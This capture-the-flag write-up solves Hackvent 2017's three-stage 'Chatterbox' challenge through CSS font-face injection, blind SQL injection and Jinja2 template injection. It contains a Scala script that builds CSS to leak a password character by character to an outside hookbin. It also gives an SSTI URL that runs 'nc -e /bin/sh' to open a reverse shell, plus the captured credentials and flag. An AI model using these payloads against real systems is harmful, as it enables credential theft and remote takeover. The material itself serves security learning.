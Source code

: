 # Day 24: Chatterbox

*... likes to talk*

I love to chat secure and private.

For this I mostly use http://challenges.hackvent.hacking-lab.com:1087.

It's easy to create a private chat and start chatting without a registration.

[Chatterbox](http://challenges.hackvent.hacking-lab.com:1087/)

Hint #1: The admin is a lazy clicker boy and only likes `<a href="..."></a>`  
Hint #2: As a passionate designer, the admin loves different fonts.  
Hint #3: For step 2: I'd better be my own CA.  
Hint #4: For step 2: It's all about the state  
Hint #5: For step 3: python programmers don't need {{ ninjas }}

### Solution

This challenge had three separate stages.

#### Stage 1: CSS injection

The Chatterbox was running on port [1087](http://challenges.hackvent.hacking-lab.com:1087/).

As a regular user I was able to create a private channel with my own CSS. This was very suspicious right from the beginning. Some form of CSS injection? But which and how?

The first hint indicated that it is possible to invite admin to my private channel. It didn't seem so because admin silently joined the channel but didn't respond to any post. I verified his presence by modifying CSS to send GET request to my hookbin on load.

The second hint about fonts sent me to the right direction and I found this [article](http://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) about @font-face unicode-range vulnerability.

I downloaded [original](files/styles-original.css "styles-original.css") chatterbox CSS.

```bash
$ wget -O styles-original.css -q http://challenges.hackvent.hacking-lab.com:1087/css/styles.css
$ dos2unix -q styles-original.css
``` 

Then I created my [modified](files/styles-pwned.css "styles-pwned.css") version with this Scala script:

```scala
val cssOriginal = Paths.get("hackvent2017/challenges/day24/files/styles-original.css")
val cssPwned = Paths.get("hackvent2017/challenges/day24/files/styles-pwned.css")
val endpoint = "https://hookb.in/E5V2ANXB"

val writer = Files.newBufferedWriter(cssPwned)
try {
  writer.append(ascii(Files.readAllBytes(cssOriginal)))
  for (ch <- '!' to '~') {
    writer.append(s"""
      |@font-face { /* '${ch}' */
      |    font-family: pwn;
      |    src: url("${endpoint}?char=${URLEncoder.encode(ch.toString, "UTF-8")}");
      |    unicode-range: U+${hex(ch.toInt, 4).toUpperCase};
      |}
      |""".stripMargin)
  }
  writer.append(s"""
    |#password {
    |    font-family: pwn;
    |}
    |""".stripMargin)
} finally {
  writer.close
}
``` 

It defines my own fictional `pwn` font family which uses hookbin to capture requests for individual characters by adding section like this for each printable character.
                                                                                                                         
```css
@font-face { /* 'a' */
    font-family: pwn;
    src: url("https://hookb.in/E5V2ANXB?char=a");
    unicode-range: U+0061;
}
``` 

In last step it adds this font family to the `password` HTML element.

```css
#password {
    font-family: pwn;
}
```

Then I invited admin to my channel with this CSS and checked requests captured in my hookbin.

The admin's password was:

```
Christmas2017
```

I simply used it to login and then I got redirected to the [second stage](http://challenges.hackvent.hacking-lab.com:1088?key=E7g24fPcZgL5dg78).

#### Stage 2: SQL injection

The Message Board Admin Panel was running on port [1088](http://challenges.hackvent.hacking-lab.com:1088?key=E7g24fPcZgL5dg78).

This stage contained *Tools* section with a form which generated certificate based on submitted CRS.

Hints 3 and 4 directed me to the `state` field of CSR which suffered from SQL injection. I wrote a script which used blind time-based SQLi on that field to find useful data in the underlying database. It was very time consuming part but I managed to extract link to the last stage from column `private_key` of the first row of table `hv24_2.keystorage`. It contained this value:

```
challenges.hackvent.hacking-lab.com:1089?key=W5zzcusgZty9CNgw
```

#### Stage 3: Template injection

The Easy Webshop was running on port [1089](http://challenges.hackvent.hacking-lab.com:1089?key=W5zzcusgZty9CNgw).

The last hint indicated it has something to do with SSTi vulnerability. I quickly realized it's referencing to [Jinja2](http://jinja.pocoo.org/docs/2.10/) templating engine for Python.

I found this useful [article](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which showed me how to exploit that vulnerability. I found that URL path is vulnerable but it took me some time to put all the necessary things together and make it work.

I started local netcat opened for incoming connections: 

```bash
ncat -p 44444 -k -v -l
```

Then I hit the following URL to get the reverse connection with shell to my local netcat.

```
http://challenges.hackvent.hacking-lab.com:1089/product%7b%7b%20''.__class__.__mro__[1].__subclasses__()[37](['nc -e /bin/sh 94.112.XXX.XXX 44444'],shell=True).communicate()%20%7d%7d?key=W5zzcusgZty9CNgw
```

The last step was to use the remote shell through the local netcat instance.

```bash
$ cat /home/flag
HV17-7h1s-1sju-t4ra-nd0m-flag
```

The result flag:

```
HV17-7h1s-1sju-t4ra-nd0m-flag
```